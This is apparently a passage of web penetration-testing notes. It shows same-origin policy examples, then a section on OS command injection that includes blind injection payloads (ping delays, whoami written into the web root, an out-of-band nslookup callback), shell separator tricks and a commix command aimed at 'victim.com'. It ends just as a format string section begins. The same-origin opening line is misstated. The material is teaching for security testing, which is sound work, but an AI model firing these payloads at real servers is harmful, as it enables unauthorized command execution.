 Same Origin Policy allow us to use javascript from another site.

|URL|Outcome|Reason|
|-|-|-|
|<http://store.company.com/dir2/other.html>|Same origin|Only the path differs|
|<http://store.company.com/dir/inner/another.html>|Same origin|Only the path differs|
|<https://store.company.com/page.html>|Failure|Different protocol|
|<http://store.company.com:81/dir/page.html>|Failure|Different port (http:// is port 80 by default)|
|<http://news.company.com/dir/page.html>|Failure|Different host|

##### Testing for Command Injection

OS command injection is a technique used via a web interface in order to execute OS commands on a web server.

There are different types of command injection:

- Blind OS command injection:
  - Time delays: ?parameter=x||ping+-c+10+127.0.0.1||
  - Redirecting output (Retreive the file after on your browser): ?parameter=||whoami>/var/www/images/output.txt||
  - OOB (Out Of Band) Exploitation: ?parameter=x||nslookup+burp.collaborator.address||

###### Discovery

- **cmd1|cmd2**: Uses of **|** will make command 2 to be executed weather command 1 execution is successful or not.
- **cmd1;cmd2**: Uses of **;** will make command 2 to be executed weather command 1 execution is successful or not.
- **cmd1||cmd2** : Command 2 will only be executed if command 1 execution fails.
- **cmd1&&cmd2** : Command 2 will only be executed if command 1 execution succeeds.
- **$(cmd)** : For example, echo $(whoami) or $(touch test.sh; echo 'ls' > test.sh)
- **cmd** : It’s used to execute specific command. For example, whoami
- **0x0a**: End of line character in hexadecimal
- **\n**

[Commix](https://github.com/commixproject/commix) is a tool used to find bugs, errors or vulnerabilities related to command injection attacks.

```bash
python commix.py --url="http://victim.com/#
```

##### Testing for Format String Injection

A format string is a **null-terminated character sequence** that also contains conversion specifiers interpreted or converted at runtime.

If server-side code concatenates a user's input with a format string, an attacker we can add additional conversion specifiers to cause a runtime error, information disclosure, or buffer overflow.

For instance:
